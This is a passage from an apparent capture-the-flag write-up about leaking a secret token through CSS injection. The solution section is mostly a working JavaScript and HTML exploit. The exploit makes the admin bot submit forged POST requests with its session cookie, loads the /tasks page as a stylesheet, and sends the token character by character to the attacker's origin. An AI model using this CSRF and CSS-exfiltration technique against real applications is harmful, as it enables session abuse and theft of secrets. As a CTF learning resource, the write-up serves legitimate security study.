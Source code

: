 So i thought i could use css injection to leak the token... But how am i supposed to do it
if the token is in a page different from the injection point? I thought about using a same origin
iframe and changing its style, but i think it's possible only with javascript.

At this point i was completely lost, so i waited to see the solution and it turned out to be really clever!

# The solution

Basically we want to include the `/tasks` page as css stylesheet and use css to leak the token.

Here's the page that the bot should visit:
```html
<form target="chall" id="form" method="POST">
  <textarea name="content"></textarea>
</form>
<script>
  const sleep = d => new Promise(r=>setTimeout(r,d));

  const CHALL_URL = 'http://127.0.0.1:80';
  const containerTpl = flag => `,\n${flag}</pre>\n        </td>\n      </tr>\n      \n  </table>\n\n  <form method=\"POST\" action=\"/tasks/create\">\n    <button class=\"btn\" type=\"submit\">Create New Task</button>\n  </form>\n\n</body>\n\n</html>`;

  const form = document.querySelector('#form');
  form.action = `${CHALL_URL}/tasks/0`;
  let flag = 'justToken{';

  window.onload = async () => {
    for(let i=0; i<50; i++){
      const prev = `<link rel=stylesheet href=/tasks><link rel=stylesheet href=${window.origin}/css/${flag}>}`;
      const task = `${prev}${'a'.repeat(500 - flag.length - 12 - prev.length)}{}*{--x:`;
      form.content.value = task;
      form.submit();
      await sleep(1000);
      open(`${CHALL_URL}/tasks/preview/0/0`, 'prev');
      flag = await fetch('/poll').then(e=>e.text());
      console.log(flag);
      open(`${CHALL_URL}/tasks/delete/0/0`, 'prev');
      await sleep(1000);
    }
    
  }

</script>
```

Here we are submitting a form as the bot, this will trigger a POST request with the session cookie of the bot
that will let us save a new arbitrary task.

The payload of the task is where the magic happens, it will look something like this:
